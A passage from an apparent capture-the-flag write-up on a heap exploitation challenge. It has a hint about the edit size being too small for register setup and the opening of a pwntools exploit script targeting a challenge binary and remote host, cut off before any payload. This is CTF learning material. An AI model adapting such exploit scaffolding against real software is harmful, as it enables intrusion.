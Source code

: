 <figure><img src="../../.gitbook/assets/image_2024-04-20_234106656.png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
if you try this with the current exploit, it won't work since the edit size is 0x20 and it won't be enough to set up rdi and rsi. the overall exploit have to change to gain the edit size bigger to make up for the parameters than 0x20 for it.
{% endhint %}

Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc-2.36.so.6'
libc = ELF(libc, checksec=False)
ld = './ld-2.36.so'
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'gold.b01le.rs', 4002

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([ld, exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())
# break *__run_exit_handlers+259

# =========================================================
#                         EXPLOITS
# =========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

def alloc(idx, size):
```